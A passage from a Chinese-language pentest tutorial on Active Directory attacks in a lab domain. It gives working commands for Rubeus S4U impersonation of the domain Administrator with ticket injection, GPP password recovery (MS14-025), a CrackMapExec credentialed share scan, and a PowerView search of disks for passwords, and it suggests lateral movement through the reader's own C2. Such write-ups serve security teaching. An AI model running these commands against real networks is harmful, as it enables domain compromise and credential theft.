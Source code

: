 用 Rubeus 创建 NT hash

```
Rubeus.exe hash /user:hackerwing /password:wing2019  /domain:pentestlab.com
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20190314193303-edac5a38-464c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190314193303-edac5a38-464c-1.png)

再使用 Rubeus 的 S4U(用户服务) 功能模拟 DC ADMIN

```
Rubeus.exe s4u /user:hackerwing$ /rc4: 6D1BF3B1E6C721EA14C13A007E656FAA /impersonateuser:Administrator /msdsspn:cifs/pentestLab-DC.pentestlab.com /ptt
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20190314193303-ee35171a-464c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190314193303-ee35171a-464c-1.png)

票据导入后，就可以直接访问 DC。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20190314193307-f02a0788-464c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190314193307-f02a0788-464c-1.png)

有个视频，直观些。  
[YouTube](https://www.youtube.com/watch?v=RUbADHcBLKg)

MS14-025，GPP
------------

这个洞人尽皆知了。

msf 有模块  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20190314193314-f43989f2-464c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190314193314-f43989f2-464c-1.png)  
不过一般看一下 SYSVOL 目录就行。

查找权限高的用户 | CrackMapExec
-----------------------

```
cme smb 192.168.123.0/24 -u flowing -p Admin@1234 --shares
```

有高权限的目录的话，会提示出来。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20190314193320-f7d41ca8-464c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190314193320-f7d41ca8-464c-1.png)

配合你自己的 C2 工具横向渗透。

PowerTools
----------

还有一个重要的点就是在磁盘上收集已知密文。

PowerView 中有一个叫 Invoke-FileFinder 的命令，它允许您在文件或文件中搜索你想要的任何字符串。  
password

```
Invoke-FileFinder -Threads 100 -Verbose -Terms password
```
